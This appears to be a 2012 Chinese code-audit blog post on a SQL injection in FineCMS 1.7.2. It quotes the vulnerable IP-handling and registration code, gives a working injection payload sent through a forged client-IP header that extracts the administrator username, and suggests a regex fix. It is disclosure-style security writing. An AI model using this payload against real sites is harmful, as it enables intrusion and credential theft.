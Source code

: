 ```yaml
---
layout: post
title: "FineCms 1.7.2 注射漏洞"
date: 2012-11-22 13:12
comments: true
categories: Code&nbspAudit
---
```

>
# 简介:

## FineCMS是一款基于PHP+MySql开发的内容管理系统,采用MVC设计模式，实现业务逻辑与表现层的适当分离，使网页设计师能够轻松设计出理想的模板。

>
# 漏洞文件:

## Client.Class.php 29行处:
<pre>
<code>
        public static function get_user_ip() {
                if(getenv('HTTP_CLIENT_IP') && strcasecmp(getenv('HTTP_CLIENT_IP'), 'unknown')) {
                        $onlineip = getenv('HTTP_CLIENT_IP');
                } elseif(getenv('HTTP_X_FORWARDED_FOR') && strcasecmp(getenv('HTTP_X_FORWARDED_FOR'), 'unknown')) {
                        $onlineip = getenv('HTTP_X_FORWARDED_FOR');
                } elseif(getenv('REMOTE_ADDR') && strcasecmp(getenv('REMOTE_ADDR'), 'unknown')) {
                        $onlineip = getenv('REMOTE_ADDR');
                } elseif(isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], 'unknown')) {
                        $onlineip = $_SERVER['REMOTE_ADDR'];
                }
                return $onlineip;
        }
/* 显然可以伪造一个client_ip进行注入 */
</code>
</pre>
## RegsiterControll.php 145行处:
<pre>
<code>
  private function reg($data) {
            if (empty($data)) return false;
                $data['groupid']  = 1;
                $data['regdate']  = time(); 
        $data['regip']    = client::get_user_ip();//使用了存在漏洞的get_user_ip方法,漏洞就此产生
        $data['status']          = $this->memberconfig['status']  ? 0 : 1;
                $data['modelid']  = (!isset($data['modelid']) || empty($data['modelid'])) ? $this->memberconfig['modelid'] : $data['modelid'];
                if (!isset($this->membermodel[$data['modelid']])) $this->memberMsg('会员模型不存在，请联系管理员。');
                if ($this->memberconfig['uc_use'] == 1) {
                    if (uc_get_user($data['username'])) {
                                $this->memberMsg('该用户无需注册，请直接登录激活！', url('member/login'), 1);
                        }
                        $uid = uc_user_register($data['username'], $data['password'], $data['email']);
                        if ($uid <= 0) {
                                if ($uid == -1) {
                                        $this->memberMsg('用户名不合法');
                                } elseif($uid == -2) {
                                        $this->memberMsg('包含要允许注册的词语');
                                } elseif($uid == -3) {
                                        $this->memberMsg('用户名已经存在');
                                } elseif($uid == -4) {
                                        $this->memberMsg('Email 格式有误');
                                } elseif($uid == -5) {
                                        $this->memberMsg('Email 不允许注册');
                                } elseif($uid == -6) {
                                        $this->memberMsg('该 Email 已经被注册');
                                } else {
                                        $this->memberMsg('未定义');
                                }
                        } else {
                                $username = $data['username'];
                        }
                }
            $data['password'] = md5($data['password']);
                $userid = $this->member->insert($data);
                return $userid;
        }
</code>
</pre>
>
# 漏洞利用:

## EXP:提交用户注册的时候,伪造一个client_ip,内容如下:
sb','1','6'),('hell','1b192f49ddec03d0c7e777d3e578cebf',(select username from fn_user where userid=1),'1','11111','sbd','1','6')#
成功之后,登陆用户:hell,密码:sbdan. 邮箱处就有管理员的user了.

>
# 修补建议:
<pre>
<code>
function get_user_ip(){
    if(getenv('HTTP_CLIENT_IP') && strcasecmp(getenv('HTTP_CLIENT_IP'), 'unknown')) {
      $onlineip = getenv('HTTP_CLIENT_IP');
     } elseif(getenv('HTTP_X_FORWARDED_FOR') && strcasecmp(getenv('HTTP_X_FORWARDED_FOR'), 'unknown')) {
      $onlineip = getenv('HTTP_X_FORWARDED_FOR');
   } elseif(getenv('REMOTE_ADDR') && strcasecmp(getenv('REMOTE_ADDR'), 'unknown')) {
      $onlineip = getenv('REMOTE_ADDR');
   } elseif(isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], 'unknown')) {
      $onlineip = $_SERVER['REMOTE_ADDR'];
} 
 
   preg_match("/[\d\.]{7,15}/", $onlineip, $onlineipmatches);
   $onlineip = $onlineipmatches[0] ? $onlineipmatches[0] : 'unknown';
   return $onlineip;
}

</code>
</pre>
